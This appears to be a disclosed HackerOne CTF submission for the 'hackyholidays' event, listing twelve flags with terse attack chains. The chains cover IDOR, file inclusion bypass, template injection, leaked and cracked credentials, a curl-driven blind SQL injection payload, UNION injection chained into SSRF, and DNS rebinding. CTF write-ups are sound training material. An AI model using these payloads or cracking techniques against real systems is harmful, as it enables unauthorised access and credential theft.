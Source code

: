 # Stopping Grinch to ruin XMas!

## Report Details
- **Report ID**: 1065485
- **URL**: https://hackerone.com/reports/1065485
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-12-23T21:04:27.458Z
- **Disclosed**: 2021-01-11T21:28:58.644Z

## Reporter
- **Username**: nukedx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
Hello,

Gonna just submit flags first then will send my write up later tomorrow.

## flag1: 
**flag{48104912-28b0-494a-9995-a203d1e261e7}** > https://hackyholidays.h1ctf.com/robots.txt > recon > revealing hidden endpoint

## flag2: 
**flag{b7ebcb75-9100-4f91-8454-cfb9574459f7}** > https://hackyholidays.h1ctf.com/s3cr3t-ar3a > inspect > clear text storage of sensitive data

##flag3: 
**flag{b705fb11-fb55-442f-847f-0931be82ed9a}**  > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/people-rater/ > insecure direct object reference > https://hackyholidays.h1ctf.com/people-rater/entry?id=<@base64_1>{"id":1}<@/base64_1>

##flag4: 
**flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}** > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/swag-shop/ > improper access control > https://hackyholidays.h1ctf.com/swag-shop/api/sessions > decrypt > https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B202226-FC92EA-1B9043

##flag5: 
**flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}** > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/secure-login > lack of rate limiting > username: access, password: computer >cookie alter decode base64 admin to true > zip file > fcrackzip -u -D -p ~/SecLists/Passwords/rockyou.txt my_secure_files_not_for_you.zip > password: hahahaha

##flag6: 
**flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}** > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/my-diary/?template=entries.html > local file inclusion > https://hackyholidays.h1ctf.com/my-diary/?template=index.php > replace bypass > https://hackyholidays.h1ctf.com/my-diary/?template=secretadminsecretadminadmin.php.php.php

##flag7: 
**flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}** > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/hate-mail-generator > new > server side template injection > intercept > change preview_data name value for: {{template:38dhs_admins_only_header.html}} > https://hackyholidays.h1ctf.com/hate-mail-generator/new/preview

##flag8: 
**flag{677db3a0-f9e9-4e7e-9ad7-a9f23e47db8b}** > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/forum > github recon > leak of sensitive information > https://github.com/Grinch-Networks/forum > https://github.com/Grinch-Networks/forum/commit/efb92ef3f561a957caad68fca2d6f8466c4d04ae > new DbConnect( false, 'forum', 'forum','6HgeAZ0qC9T6CQIqJpD' ); > https://hackyholidays.h1ctf.com/forum/phpmyadmin > 35D652126CA1706B59DB02C93E0C9FBF > md5 crack > BahHumbug > grinch: BahHumbug

##flag9: 
**flag{6e8a2df4-5b14-400f-a85a-08a260b59135}** > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/evil-quiz/ > second order sql injection > https://hackyholidays.h1ctf.com/evil-quiz/admin (request=$(curl -X POST https://hackyholidays.h1ctf.com/evil-quiz/ -b "session=9c51f837b45b7d8a94e97438860d3bfb" -d "name=aaa2'+or+(select+1+from+admin+where+MD5(SUBSTRING(password,$1,1))=MD5('$2'))#" -s -w "%{http_code}\n" -o /dev/null)) >admin:S3creT_p4ssw0rd-$ > second order sql injection


##flag10: 
**flag{99309f0f-1752-44a5-af1e-a03e4150757d}** > https://hackyholidays.h1ctf.com/apps > https://hackyholidays.h1ctf.com/signup-manager/ > inspect > https://hackyholidays.h1ctf.com/signup-manager/README.md > https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip > improper input validation > intval 1e3 > gain admin rights

##flag11: 
**flag{07a03135-9778-4dee-a83c-7ec330728e72}** > https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/ > https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3dir42 > sql injection > https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-2%27+UNION+SELECT+1,NULL,'test'%23 > sql inception > https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-2%27+UNION+SELECT+%22-2%27+UNION+SELECT+1,1,%27../api/user?username=a*%26%27%23%22,NULL,'test'%23 > generate auth for api > ssrf > find endpoints > user > find params > username & password > query api > grinchadmin:s4nt4sucks > https://hackyholidays.h1ctf.com/attack-box

##flag12: 
**flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}** > https://hackyholidays.h1ctf.com/attack-box >  launch attack > decode base64 > hashcat > get salt > mrgrinch463 > create dns entry for rebinding > launch attack > https://hackyholidays.h1ctf.com/attack-box/challenge-completed-a3c589ba2709

Thanks for fun!

## Impact

Grinch fails once again!

## Attachments
No attachments
